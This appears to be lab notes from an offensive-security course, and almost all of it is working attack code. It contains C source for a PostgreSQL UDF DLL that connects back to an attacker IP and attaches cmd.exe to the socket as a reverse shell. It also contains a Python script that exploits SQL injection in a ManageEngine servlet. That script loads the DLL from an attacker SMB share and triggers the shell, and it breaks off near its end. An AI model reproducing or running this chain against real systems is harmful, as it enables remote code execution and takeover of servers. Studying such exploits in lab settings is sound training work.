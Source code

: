 ```
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

        WSAStartup(MAKEWORD(2, 2), &wsaData);
        s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

        hax.sin_family = AF_INET;
        /* FIX THIS */
        hax.sin_port = htons(PG_GETARG_INT32(1));
        /* FIX THIS TOO*/
        hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

        WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

        memset(&sui, 0, sizeof(sui));
        sui.cb = sizeof(sui);
        sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

        CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
        PG_RETURN_VOID();
}


```
Compile and host the dll on kali. transfer the dll using impacket smb server.

``` 
┌──(kali㉿kali)-[~/repos/web-300/scripts]
└─$ cat me_revshell.py                                    
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print (msg)

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "CREATE OR REPLACE FUNCTION rev_shell(text,integer) RETURNS void AS $$\\\\192.168.45.237\\awae\\rev_shell.dll$$, $$connect_back$$ language c strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print ("[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0])
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
```